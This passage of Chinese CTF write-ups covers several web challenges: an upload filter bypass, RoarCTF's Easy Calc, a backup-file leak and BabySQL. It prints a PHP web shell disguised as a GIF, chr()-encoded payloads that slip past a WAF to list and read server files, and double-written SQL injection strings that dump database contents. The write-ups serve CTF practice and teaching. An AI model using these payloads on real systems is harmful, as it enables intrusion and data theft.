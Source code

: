 前端限制后缀白名单jpg, png, gif，删审查元素会删不掉已经注册了的回调函数，所以直接改后缀名上传，然后抓包改一下

pure.html

```
GIF89a
<script language='php'>eval($_POST['amiz']);</script>
```

连蚁剑

flag{a8ff29f2-5197-4599-a1c4-1e8b5f390a8c}

{{% /spoiler %}}

{{% spoiler "[RoarCTF 2019]Easy Calc  |  php-shell" %}}

页面源码：I've set up WAF to ensure security.

num参数以get方式传入，不允许有字母；绕过方式`/calc.php  ?num=xyx`，加空格；还有`chr()`+ascii码

```python
tmp = str(input())
res = ''
for _ in tmp:
    res += f'chr({str(ord(_))}).'
print(res[:-1])
```

```
/calc.php? num=1;var_dump(scandir(chr(47)))		# 爆目录文件 f1agg
/calc.php? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

flag{4f1c0f5a-5a7b-4ad4-b7f4-9eb82de3f93f}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]PHP" %}}

备份文件泄露/www.zip，flag.php中得到flag

Syc{dog_dog_dog_dog}

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]BabySQL  |  sqli 联合注入 双写绕过" %}}

把union, select双写即可

```
admin' ununionion selselectect 1,2,3#
1' uunionnion sselectelect 1,2,group_concat(schema_name) ffromrom infoorrmation_schema.schemata%23	# 库名information_schema,mysql,performance_schema,test,ctf,geek
1' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='ctf'%23	# 表名 Flag
1' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='Flag'		# 字段名flag
1' union select 1,2,group_concat(flag) from ctf.Flag	# ctf库Flag表的flag字段
```

flag{b6848383-f7d0-4cad-ad7d-98ab54790bbe}
